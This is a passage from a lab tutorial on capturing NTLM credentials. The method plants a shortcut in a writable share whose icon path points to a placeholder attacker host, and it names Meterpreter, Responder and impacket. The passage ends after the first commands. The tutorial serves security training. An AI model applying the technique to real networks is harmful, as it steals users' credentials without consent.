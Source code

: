 # Capturing NTLM via Malicious `.lnk` Icons (PEH Active Directory Lab)

> **Disclaimer:** This document is for **educational use in the Practical Ethical Hacking (PEH) Active Directory lab** or other explicitly authorized lab environments. **Do not** use these techniques on networks you do not own or do not have written permission to test.

## Goal

From a foothold on a Windows host, plant a **malicious `.lnk`** (shortcut) in a **writable share**. The `.lnk`’s **IconLocation** is a **UNC path** to your attacker host, so when users **view** the folder in Explorer, their machine attempts to fetch the icon over SMB—**leaking NTLM credentials** to your listener.

> In production, writable shares on Domain Controllers are rare. In the **PEH AD lab** you may see a DC share like `\\HYDRA-DC\hackme` for practice. The exact technique works with **any writable share** that privileged users browse (file servers, departmental shares, “Public” folders, DFS paths).

---

## Prerequisites

- You have a **Meterpreter session** (Windows) on a lab host.
- You know a **target server** and **writable share** (e.g., `\\TARGET-SERVER\hackme`).
- Your attacker box (Kali) has **Responder** or **impacket-smbserver**.
- Network path from victim → attacker is reachable (no blocked SMB).

---

## High-Level Flow

1. Enumerate shares; confirm **write access**.
2. From the foothold, open **cmd** → start **PowerShell**.
3. Create a **`.lnk`** directly **in the share**; set `IconLocation` to `\\ATTACKER\icon\foo.ico`.
4. **Background** the interactive shell (keep session alive).
5. On Kali, run a **listener** (Responder or impacket SMB server).
6. Wait for a user to **browse the share** → SMB auth request hits your listener.

---

## Step-by-Step (with exact commands)

### 1) From Meterpreter → cmd shell

```text
meterpreter > shell
```

**List shares on a target server (DC in lab example):**
```cmd
net view \\TARGET-SERVER
```
